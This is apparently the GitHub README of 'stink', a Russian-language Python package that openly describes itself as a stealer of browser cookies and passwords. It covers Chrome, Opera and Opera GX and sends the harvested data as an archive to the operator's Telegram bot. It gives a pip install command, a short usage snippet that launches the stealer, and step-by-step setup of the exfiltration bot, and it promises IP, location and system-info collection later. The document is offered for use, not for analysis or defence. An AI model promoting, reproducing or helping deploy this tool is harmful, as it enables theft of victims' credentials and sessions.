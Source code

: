 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду `/newbot`.
<p align="left">
  <a href="">
    <img src="docs/1.png" width="500px" style="display: inline-block;">
  </a>
</p>
3. Прописываем название бота с прикладкой `_bot` в конце.
<p align="left">
  <a href="">
    <img src="docs/2.png" width="500px" style="display: inline-block;">
  </a>
</p>
4. Прописываем команду `/token`, затем название бота с прикладкой `@` в начале.
<p align="left">
  <a href="">
    <img src="docs/3.png" width="500px" style="display: inline-block;">
  </a>
</p>
5. Полученный токен вставляем в поле `"YOUR_TOKEN"` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду `/start`.
<p align="left">
  <a href="">
    <img src="docs/4.png" width="500px" style="display: inline-block;">
  </a>
</p>
4. Полученный айди вставляем в поле `YOUR_ID` в скрипте.
